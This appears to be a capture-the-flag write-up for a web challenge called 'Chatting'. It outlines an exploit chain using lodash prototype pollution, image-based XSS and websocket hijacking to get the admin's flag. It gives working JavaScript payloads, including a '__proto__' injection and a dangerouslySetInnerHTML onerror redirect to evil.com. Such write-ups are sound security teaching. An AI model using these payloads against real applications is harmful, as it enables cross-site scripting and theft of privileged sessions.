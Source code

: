 # Chatting

~~直接admin登陆getflag~~

（唉应该加个限制admin登陆ip的）

expected dexploit approach
1. lodash prototype pollution
2. image xss (many ways)
3. make the admin refresh the browser page and goto a third party site which would connect to the websocket server as a client
4. login as admin, getflag and send it back

### Details

prototype pollution payload:
```js
content: {
    type: 'tpl',
    data: {
        tpl: '<h3>{{b}}</h3>',
        ctx: '{"a":123, "b":123, "__proto__":{"allowImage":true}}'
    }
}
```

xss payload:
```js
content: {
    type: 'image',
    data: {
        src: 'https://i.picsum.photos/id/220/200/200.jpg?hmac=1eed0JUIOlpc-iGslem_jB1FORVXUdRtOmgpHxDDKZQ',
        attrs: {
            wow: 1,
            dangerouslySetInnerHTML: {
                __html: "<img onerror='location.href=`http://evil.com`' src=1>"
            }
        }
    }
}
```

